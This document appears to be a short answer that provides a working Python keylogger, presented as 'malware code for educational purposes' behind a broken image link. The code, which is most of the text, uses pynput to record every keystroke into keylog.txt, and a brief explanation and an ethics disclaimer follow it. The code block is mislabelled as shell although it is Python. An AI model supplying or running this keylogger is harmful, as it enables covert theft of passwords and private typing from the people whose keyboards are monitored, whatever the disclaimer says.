 Here's a basic example of malware code for educational purposes only. This script is meant to illustrate what malicious code might look like, and it should never be used for harm.

```sh
import os
import time
import pynput.keyboard

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f"[{key}]")

def start_keylogger():
    with pynput.keyboard.Listener(on_press=on_press) as listener:
        listener.join()

if __name__ == "__main__":
    start_keylogger()
```

# Explanation:

## Imports: Uses pynput to listen to keyboard events.
## on_press function: Captures and logs keystrokes to a file named keylog.txt.
## start_keylogger function: Initializes the keylogger and starts listening for keypresses.

#Important Note: This code is only for educational and ethical hacking purposes. Unauthorized use of such scripts is illegal and unethical. Always get proper authorization before testing any security vulnerabilities.
